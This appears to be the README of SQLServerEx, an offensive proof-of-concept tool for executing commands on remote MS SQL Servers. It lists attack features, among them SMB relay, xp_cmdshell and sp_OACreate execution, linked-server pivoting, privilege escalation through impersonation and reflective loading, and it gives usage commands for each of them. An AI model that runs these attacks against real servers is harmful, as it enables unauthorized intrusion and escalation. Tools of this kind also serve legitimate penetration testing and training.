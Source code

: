 
### MS SQL Server Command Execution

SQLServerEx is a PoC designed to execute commands / code on remote MS SQL Servers via publicly known vectors. The tool was inspired by Offensive Security courses so all kudos to them, I just put some dotNETs together.

Could be executed in both interactive and non-interactive modes providing command line arguments. Current functionality includes:

* Retrieves current user roles, linked servers and logins to be impersonated.
* Smb Relay Attack.
* Command execution via Linked Servers, Xp_cmdshell, sp_OACreate, invoking DLLs.
* PrivEsc via user impersonation and db_owner vectors.
* Reflective loading via exposed StartR method.

#### Some of the running modes:

Server enumeration under current domain user context or with supplied credentials:

```
SQLServerEx.exe -s SQLSERVER1 -d master
SQLServerEx.exe -s SQLSERVER1 -u sa -p Password1
```

Command execution:

```
SQLServerEx.exe -s SQLSERVER1 -d master -e relay -r RESPONDER2
SQLServerEx.exe -s SQLSERVER1 -e link -l LINKEDSQLSERVER3
SQLServerEx.exe -s SQLSERVER1 -e xpshell -i sa
SQLServerEx.exe -s SQLSERVER1 -e sp -i dbo
SQLServerEx.exe -s SQLSERVER1 -e rundll -i sa
SQLServerEx.exe -s SQLSERVER1 -u user -p MyPassword! -e escalate -o VulnAppDb
```